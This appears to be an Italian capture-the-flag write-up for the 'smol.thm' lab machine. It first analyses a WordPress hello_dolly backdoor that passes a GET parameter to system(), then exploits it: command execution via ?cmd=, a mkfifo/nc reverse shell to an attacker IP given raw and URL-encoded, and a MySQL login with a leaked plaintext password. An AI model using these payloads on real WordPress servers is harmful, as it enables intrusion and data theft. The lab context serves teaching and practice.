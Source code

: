     - Se il parametro GET esiste, il codice esegue un comando di sistema utilizzando la funzione `system()`, passando un altro parametro GET come argomento. Questo significa che l'attaccante può eseguire comandi arbitrari sul server.

 ==Rischi e Conseguenze==

- **Vulnerabilità di Sicurezza**: Questo tipo di codice è un esempio di vulnerabilità di tipo Remote Code Execution (RCE). Se un attaccante riesce a inviare una richiesta GET con i parametri appropriati, può eseguire comandi arbitrari sul server, compromettendo la sicurezza del sistema.
    
- **Uso Malevolo**: Codici come questo sono spesso utilizzati in attacchi per compromettere server web, installare malware o rubare dati.
    
==Conclusione==

Il codice fornito è altamente pericoloso e rappresenta una vulnerabilità di sicurezza. È fondamentale evitare l'uso di `eval()` e di funzioni simili in PHP, specialmente con input non sanitizzati, per prevenire attacchi di tipo RCE. Se trovi codice simile nel tuo ambiente, è consigliabile rimuoverlo immediatamente e indagare su come è stato inserito.

Un'ulteriore analisi del codice ha rivelato che questa funzionalità è legata alla seguente azione di WordPress:

```
add_action ( 'admin_notices' , 'hello_dolly' );
```

Ciò significa che la backdoor viene eseguita ogni volta che il pannello di amministrazione di WordPress visualizza un avviso.

 **accedendo al pannello di amministrazione di WordPress, posso attivare la backdoor ed eseguire comandi arbitrari aggiungendoli `?cmd=`all'URL.**

mi reco sulla dashboard del pannello wordpress e su url digito
```
www.smol.thm/wp-admin/index.php?cmd=whoami
```
ottengo www-data
```
nc -lvnp 1234
```

```
www.smol.thm/wp-admin/index.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.116.149 1234 >/tmp/f
```

```
?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.11.116.149%201234%20%3E%2Ftmp%2Ff
```

```
mysql -u wpuser -p -h localhost
```

```
kbLSF2Vop#lw3rjDZ629*Z%G
```

```
USE wordpress;
```
`
```
SHOW tables;
```
